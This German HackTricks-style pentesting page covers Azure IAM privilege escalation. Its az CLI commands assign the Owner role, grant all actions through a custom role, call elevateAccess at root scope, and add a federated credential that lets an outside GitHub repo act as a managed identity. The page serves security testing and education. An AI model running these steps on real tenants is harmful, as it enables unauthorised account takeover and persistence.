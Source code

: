 # Az - Azure IAM Privesc (Authorization)

{{#include ../../../banners/hacktricks-training.md}}

## Azure IAM

Für weitere Informationen siehe:

{{#ref}}
../az-services/az-azuread.md
{{#endref}}

### Microsoft.Authorization/roleAssignments/write

Diese Berechtigung ermöglicht es, Rollen an Prinzipien über einen bestimmten Geltungsbereich zuzuweisen, wodurch ein Angreifer Privilegien erhöhen kann, indem er sich selbst eine privilegiertere Rolle zuweist:
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
### Microsoft.Authorization/roleDefinitions/Write

Diese Berechtigung ermöglicht es, die von einer Rolle gewährten Berechtigungen zu ändern, wodurch ein Angreifer die Privilegien erhöhen kann, indem er einer Rolle, die ihm zugewiesen wurde, weitere Berechtigungen gewährt.

Erstellen Sie die Datei `role.json` mit dem folgenden **Inhalt**:
```json
{
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": ["*"],
"NotActions": [],
"DataActions": ["*"],
"NotDataActions": [],
"AssignableScopes": ["/subscriptions/<subscription-id>"]
}
```
Dann aktualisieren Sie die Rollenberechtigungen mit der vorherigen Definition, indem Sie aufrufen:
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

Diese Berechtigung ermöglicht es, Privilegien zu erhöhen und Berechtigungen für beliebige Prinzipale zu Azure-Ressourcen zuzuweisen. Sie soll Entra ID Global Administratoren gegeben werden, damit sie auch Berechtigungen für Azure-Ressourcen verwalten können.

> [!TIP]
> Ich denke, der Benutzer muss Global Administrator in Entra ID sein, damit der Erhöhungsaufruf funktioniert.
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
### Microsoft.ManagedIdentity/userAssignedIdentities/federatedIdentityCredentials/write

Diese Berechtigung ermöglicht das Hinzufügen von föderierten Anmeldeinformationen zu verwalteten Identitäten. Z. B. Zugriff auf Github Actions in einem Repo für eine verwaltete Identität gewähren. Dann ermöglicht es den **Zugriff auf jede benutzerdefinierte verwaltete Identität**.

Beispielbefehl, um einer verwalteten Identität Zugriff auf ein Repo in Github zu gewähren:
```bash
# Generic example:
az rest --method PUT \
--uri "https://management.azure.com//subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>/federatedIdentityCredentials/<name-new-federated-creds>?api-version=2023-01-31" \
--headers "Content-Type=application/json" \
--body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:<org-name>/<repo-name>:ref:refs/heads/<branch-name>","audiences":["api://AzureADTokenExchange"]}}'

# Example with specific data:
az rest --method PUT \
--uri "https://management.azure.com//subscriptions/92913047-10a6-2376-82a4-6f04b2d03798/resourceGroups/Resource_Group_1/providers/Microsoft.ManagedIdentity/userAssignedIdentities/funcGithub-id-913c/federatedIdentityCredentials/CustomGH2?api-version=2023-01-31" \
--headers "Content-Type=application/json" \
--body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:carlospolop/azure_func4:ref:refs/heads/main","audiences":["api://AzureADTokenExchange"]}}'
```
{{#include ../../../banners/hacktricks-training.md}}
